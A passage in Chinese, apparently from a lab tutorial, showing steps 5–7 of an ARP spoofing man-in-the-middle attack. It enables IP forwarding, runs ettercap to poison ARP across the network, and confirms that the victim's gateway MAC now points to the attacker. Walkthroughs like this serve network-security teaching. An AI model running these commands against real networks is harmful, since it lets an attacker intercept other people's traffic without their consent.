 5. 通过运行以下命令来启用 IP 转发：

    ```shell
    cat /proc/sys/net/ipv4/ip_forward
    echo “1”> /proc/sys/net/ipv4/ip_forward
    ```

6. 使用ettercap来进行ARP欺骗，运行以下命令

    ```shell
    sudo ettercap -Tqi ens33 -M arp:remote ////
    ```

    ![Alt text](image-19.png)

7. 查询受害端的ARP表，可以看到，受害端的ARP表中的网关的MAC地址被修改为了攻击端的MAC地址，如下图所示。
![Alt text](image-16.png)
